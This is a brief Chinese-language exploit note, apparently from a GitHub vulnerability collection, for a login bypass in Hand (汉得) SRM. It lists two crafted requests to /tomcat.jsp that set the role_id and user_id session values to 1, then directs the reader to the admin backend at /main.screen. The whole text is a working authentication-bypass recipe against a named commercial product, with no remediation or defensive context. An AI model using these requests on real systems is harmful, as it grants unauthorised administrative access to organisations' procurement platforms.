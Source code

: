 # 汉得SRM tomcat.jsp 登录绕过漏洞

## 汉得SRM tomcat.jsp 登录绕过漏洞
```
/tomcat.jsp?dataName=role_id&dataValue=1
/tomcat.jsp?dataName=user_id&dataValue=1
```
然后访问后台：/main.screen

